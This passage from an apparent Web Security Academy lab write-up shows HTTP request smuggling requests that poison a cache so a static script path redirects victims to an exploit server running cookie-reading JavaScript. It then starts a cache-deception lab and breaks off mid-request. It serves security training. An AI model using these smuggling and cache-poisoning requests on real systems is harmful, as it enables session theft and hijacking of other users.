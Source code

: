     POST / HTTP/1.1
    Host: 0a95006903259c3a83e99b2e0061008d.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 179
    Transfer-Encoding: chunked

    0

    GET /post/next?postId=6 HTTP/1.1
    Host: exploit-0a6e009d03b49c5383ff9a7001090043.exploit-server.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 50

    x=

Because of the HTTP smuggling attack, when the response arrive at the browser, it will look for the script `/resources/js/tracking.js`, which will result in this request received by the server:

    GET /post/next?postId=6 HTTP/1.1
    Host: exploit-0a6e009d03b49c5383ff9a7001090043.exploit-server.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 50

    x=GET /resources/js/tracking.js HTTP/2
    Host: 0a95006903259c3a83e99b2e0061008d.web-security-academy.net

The server will respond with a `302 Found` response which will redirect to our exploit server. On the other hand, the cache server indicates that the response for `/resources/js/tracking.js` can be cached (`tracking.js` is a static file). Therefore, when the victim request for `/resources/js/tracking.js` (automatically does by the browser if it is not cached before when he visits the home page), he is served with the cached response:

    HTTP/2 302 Found
    Location: https://exploit-0a6e009d03b49c5383ff9a7001090043.exploit-server.net/post?postId=7
    X-Frame-Options: SAMEORIGIN
    Cache-Control: max-age=30
    Age: 12
    X-Cache: hit
    Content-Length: 0

This response will redirect the victim to our exploit server and execute our code. At the exploit server, change `file:/post` to match the path and add this script to the body:

    alert(document.cookie)

### LAB: Exploiting HTTP request smuggling to perform web cache deception
Same as above lab. First send this request:

    POST / HTTP/1.1
    Host: 0a20000a03279c7b83d5d7a90040007e.web-security-academy.net
    Cookie: session=KRkmTKTlwr3CeUbMMywNekbXifX0dB1q
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 40
    Transfer-Encoding: chunked
